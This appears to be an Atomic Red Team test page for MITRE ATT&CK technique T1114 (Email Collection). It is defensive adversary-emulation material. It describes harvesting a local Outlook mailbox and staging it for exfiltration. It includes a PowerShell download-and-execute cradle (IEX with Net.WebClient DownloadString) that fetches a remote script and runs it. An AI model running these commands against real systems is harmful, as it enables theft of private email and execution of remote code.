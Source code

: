 # T1114 - Email Collection
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1114)
<blockquote>Adversaries may target user email to collect sensitive information from a target.

Files containing email data can be acquired from a user's system, such as Outlook storage or cache files .pst and .ost.

Adversaries may leverage a user's credentials and interact directly with the Exchange server to acquire information from within a network.

Some adversaries may acquire user credentials and access externally facing webmail applications, such as Outlook Web Access.</blockquote>

## Atomic Tests

- [Atomic Test #1 - T1114 Email Collection with PowerShell](#atomic-test-1---t1114-email-collection-with-powershell)


<br/>

## Atomic Test #1 - T1114 Email Collection with PowerShell
Search through local Outlook installation, extract mail, compress the contents, and saves everything to a directory for later exfiltration.

**Supported Platforms:** Windows

#### Inputs
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_script | URL of PowerShell script | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1114/Get-Inbox.ps1|


#### Run it with `command_prompt`!
```
Display email contents in the terminal
  PS C:\> .\Get-Inbox.ps1

Write emails out to a CSV
  PS C:\> .\Get-Inbox.ps1 -file "mail.csv"

Download and Execute
  "IEX (New-Object Net.WebClient).DownloadString('#{remote_script}')"
```
<br/>
